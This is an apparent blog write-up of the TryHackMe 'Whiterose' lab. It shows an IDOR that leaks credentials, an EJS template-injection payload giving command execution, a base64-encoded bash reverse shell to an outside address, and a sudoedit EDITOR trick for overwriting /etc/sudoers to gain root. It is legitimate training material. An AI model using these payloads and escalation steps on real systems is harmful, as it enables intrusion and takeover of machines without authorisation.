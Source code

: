 ```yaml
---
title: "THM - Whiterose"
date: 2025-02-02
image: /assets/images/whiterose/whiterose.png
tags: [tryhackme, writeups, linux, ffuf, sudoedit, burp-suite, idor]
categories: [TryHackMe, Writeup, CTF, Easy]
redirect_from: /2025/02/02/whiterose/
---
```


Hi,

This is my writeup about the [TryHackMe](https://tryhackme.com) easy room ["Whiterose"](https://tryhackme.com/r/room/whiterose).

## Enumeration

We already got credentials in the task description:

```
Olivia Cortez:olivi8
```
{: .nolineno}

So, we have the key, but not the door. I started as always if the target is not specified.

With a nmap scan:

```shell
nmap -Pn -F $target -oN ports
```
{: .nolineno}

There are two ports open and I checked both with `nmap -sC -sV` but the software running on this server has no known vulnerability.
![nmap services light](/assets/images/whiterose/light/portscan.png){: .light }
![nmap services dark](/assets/images/whiterose/dark/portscan.png){: .dark }

The webserver is trying to redirect to `cyprusbank.thm`, so lets add this fqdn to our `/etc/hosts` file.

### Website

![login page light](/assets/images/whiterose/light/mainsite.png){: .light }
![login page dark](/assets/images/whiterose/dark/mainsite.png){: .dark }

On the website there was nothing useful to find. As we have a FQDN I start a search for subdomains with [ffuf](https://github.com/ffuf/ffuf).
```bash
ffuf -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -w /usr/share/seclists/Discovery/DNS/subdomains_top1million-110000.txt -c -v -fs 57
```
{: .nolineno}
I used the `-fs 57` to filter responses with the size of 57, because of the amount of false positives which have this size.
![login page light](/assets/images/whiterose/light/ffuf.png){: .light }
![login page dark](/assets/images/whiterose/dark/ffuf.png){: .dark }

Only one subdomain was found, the `admin` subdomain. The next step will be to add the `admin.cyprusbank.thm` with the same target IP to the `/etc/hosts` file and visit the page.

### Admin Page

![login page light](/assets/images/whiterose/light/adminlogin.png){: .light }
![login page dark](/assets/images/whiterose/dark/adminlogin.png){: .dark }

To login I used the already provided credentials from the task description.
There are four menu entries:
- `Home`:
  Which shows accounts (not all) and the status of this imaginary bank
- `Search`:
  To search for accounts and it lists all accounts if the search input is empty
  ![login page light](/assets/images/whiterose/light/phonemasked.png){: .light }
  ![login page dark](/assets/images/whiterose/dark/phonemasked.png){: .dark }
- `Settings`: Shows only that we have no permissions
  ![login page light](/assets/images/whiterose/light/nopermission.png){: .light }
  ![login page dark](/assets/images/whiterose/dark/nopermission.png){: .dark }
- `Messages`: Which shows us five messages

There is no hint that the messages are readed from someone (simulated ofc) so XXE would make no sense. I looked into the source code of that menu entry.
But there was nothing useful in the page source code for each menu entry. Looking around and testing out, what requests are made and responses coming back, I discovered the parameter in the url for the messages entry:
![login page light](/assets/images/whiterose/light/inspector.png){: .light }
![login page dark](/assets/images/whiterose/dark/inspector.png){: .dark }
The first thing that comes to mind, is to check for a [Insecure Direct Object Reference](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html)(IDOR).
Because there where five messages and the number five was the current parameter value, I decided to increase the number.
With each step a new message appears until number nine.
![login page light](/assets/images/whiterose/light/gaylebev.png){: .light }
![login page dark](/assets/images/whiterose/dark/gaylebev.png){: .dark }
Yes! Another username and password to to login.
After using this credentials to login, the phone numbers are visible now. Answer the frist question and continue.
The Settings menu is now available and it shows a page with two input-fields to change the password of an user. I give it a try and changed the password of `Gayle Bav`, but it this dosen't work.
But there have to be something about this page, as it is restricted to some users. There must be a reason for that.

I fired up Burp Suite and take a closer look to the request and response when changing a password.
After playing around for a half hour or more and also begin to doubt that this is the way in, I have accidentally send the request without the `password` parameter.
I was trying to see if there will be some kind of error if sending malformed parameters and yes, the response shows a traceback error message:
![login page light](/assets/images/whiterose/light/ejs.png){: .light }
![login page dark](/assets/images/whiterose/dark/ejs.png){: .dark }
This `ejs` stands for embedded javascript. When searching for "settings.ejs vulnerability" the [first github link](https://github.com/mde/ejs/issues/735) shows a possible exploit!
The PoC of the GitHub user [wh0amitz](https://github.com/wh0amitz) looks like this:
```
?name=John&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('calc');
```
{: .nolineno}

But instead of `calc` I choose a better fit for out context and executed the `ls` command:

![login page light](/assets/images/whiterose/light/ejsls.png){: .light }
![login page dark](/assets/images/whiterose/dark/ejsls.png){: .dark }

Yes! We are able to execute commands!
By executing the `id` command, it shows that we are executing those commands as `web` user.

## Reverse Shell

The next step was to get a reverse shell from that. And ye, you could retriev the user flag from this point on, but I decided to wait for it.

Just for fun.

Now, the reverse shell will be a simple bash reverse shell command.
To create reverse shells, there is a website named [Reverse Shell Generator](https://www.revshells.com/) which supports any executable and language to create revshells and also support encoding of the command.
But when I put in the command as it is, it will not run. Maybe because of some escaping error in the string itself.
Good that the website support encoding the command. But even URL Encoding doesen't solve the problem.

Another try will be to send base64. This could be a solution, but the `execSync` function will not decode it back to a string and execute the code for us, we have to decode it on the target itself and run it afterwards.
Should be easy when using shell oneliner:
```shell
bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzAgMD4mMQ==| base64 -d | bash"
```
{: .nolineno}

This command will execute `echo` which will print the base64 encoded command, but this will be piped to the `base64` command, which decode it and then the decoded string will be piped to the `bash` command, which will run the string.
For me this doesn't work at first, because instead of `sh` I decided to use `bash` to run the reverse shell. When using `sh` it works as expected.
Just to be sure, I choose the absolute path `/bin/bash` instead of just `bash`, this will create a connection but stop it immediately.
So back to `sh` then.

Now we have a shell on the target as user `web`. By this time I answered the second question.

> To stabilize the shell do the following, this will save your nerves later. Trust me.
> 1. export TERM=xterm
> 2. python3 -c 'import pty;pty.spawn("/bin/bash")'
> 3. CTRL+Z (press keys, this is not a command)
> 4. stty raw -echo; fg
> 5. reset
{: .prompt-tip}

## Root it

When I land on a linux machine and want to check privilege escalation possibility, the first thing I do is `sudo -l`.
And it was just the right thing to do, as it shows us that the user `web` can run sudo without the need of a password,
but only for the following command entered 1:1 unchanged:
```bash
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
{: .nolineno}

This is the first time I hear of `sudoedit`. Even that I was used to use ArchLinux as my Desktop and still using it on all my servers, I never came across this command.
Time to investigate what this command does. And ye, I already checked [GTFOBins](https://gtfobins.github.io), but there was nothing about the `sudoedit` command.

When facing a command for the first time, it is a good idea to read the [man page](https://man7.org/linux/man-pages/man8/sudoedit.8.html) for that command.
So, the manual say that this command opens files as another user to edit them. I could have guessed it by it's name.
If I run the command with sudo, it opens the file with `nano`, a texteditor which only exist for non-Vim natives to be able to install archlinux, I guess.
Lucky for me, that I like `vim`/`vi`/`neovim` more than `nano` and the first thing I would do, is to change the editor. Because of this impulses, my though was "How do `sudoedit` decide which editor to use?"

If you ever have installed archlinux then you also have faced the problem, when you forget to install `sudo` on it and when want to do so, you have to use [`visudo`](https://wiki.archlinux.org/title/Sudo#Using_visudo) to enable sudo right for your local user.

Why is this so relevant for this case you may ask. Now, when using `visudo`, you can specify the editor by passing an environment varibale `EDITOR=`.
And on the MAN page of the `sudoedit` command, it says that it uses the very same environment variable to select the editor:

![login page light](/assets/images/whiterose/light/sudoeditman.png){: .light }
![login page dark](/assets/images/whiterose/dark/sudoeditman.png){: .dark }

For clarification:

The `sudoedit` is not `sudo $EDITOR <file>`. `sudoedit` instead copies the target file to a temporary location, and the file is open with the user `web` in our case, not as root.
After closing the texteditor, `sudoedit` moves the file to it's original place and overwrite the old file with root privileges.
Knowing that, it will be useless to run some kind of `export EDITOR='vim -c "!/bin/bash"'` shell spawn commands, as they will be run with the rights of the local user.

To gain root, we have to modify a file which give us root right. I have the freedom here to choose to change `passwd`/`shadow` file or the most simpliest way: change `sudoers` file.

Now, we are only allowed to open `admin.cyprusbank.thm` file with sudoedit, which will rewrite it as root afterwards. To bypass this and be able to decide which file we want to edit, vim has a feature which prevent vim from treatening the following as arguments.

```bash
export EDITOR='vim -- /etc/sudoers'
```
After this export, I ran the sudo command 1:1, but it opens the `sudoers` file instead.

![login page light](/assets/images/whiterose/light/sudoers.png){: .light }
![login page dark](/assets/images/whiterose/dark/sudoers.png){: .dark }

This modification allows the `web` user to run every command without the need of a password with `sudo`.
To switch to root, just do `sudo su`.

Now, with root access, the last flag can be obtained.

Good luck! :)

---

![dark mode only](/assets/images/darksoulsMeme.png){: width="972" height="589" }
